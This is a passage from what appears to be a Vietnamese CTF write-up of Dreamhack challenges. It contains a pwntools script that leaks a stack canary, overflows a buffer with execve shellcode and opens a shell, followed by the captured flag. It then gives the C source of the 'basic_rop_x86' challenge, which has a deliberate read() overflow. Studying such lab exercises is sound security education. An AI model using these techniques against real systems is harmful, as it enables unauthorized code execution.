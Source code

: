```python=
	push rdi
	mov rdi, rsp
	xor rsi, rsi
	xor rdx, rdx
	mov rax, 0x3b
	syscall
''')

payload = b'A'*89
#input()
p.sendafter(b'Input: ', payload)
p.recvuntil(b'A'*89)
canary = u64(b'\x00' + p.recv(7))
log.info(hex(canary))

payload = shell
payload = payload.ljust(88, b'a')
payload += p64(canary)
payload += b'a'*8
payload += p64(buf)

p.sendlineafter(b'Input: ', payload)
p.interactive()
```
> ***DH{333eb89c9d2615dd8942ece08c1d34d5}***

# [basic_rop_x86](https://dreamhack.io/wargame/challenges/30)
```c 
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>


void alarm_handler() {
    puts("TIME OUT");
    exit(-1);
}


void initialize() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);

    signal(SIGALRM, alarm_handler);
    alarm(30);
}

int main(int argc, char *argv[]) {
    char buf[0x40] = {};

    initialize();

    read(0, buf, 0x400);
    write(1, buf, sizeof(buf));

    return 0;
}
```
- Lỗi BOF ở hàm read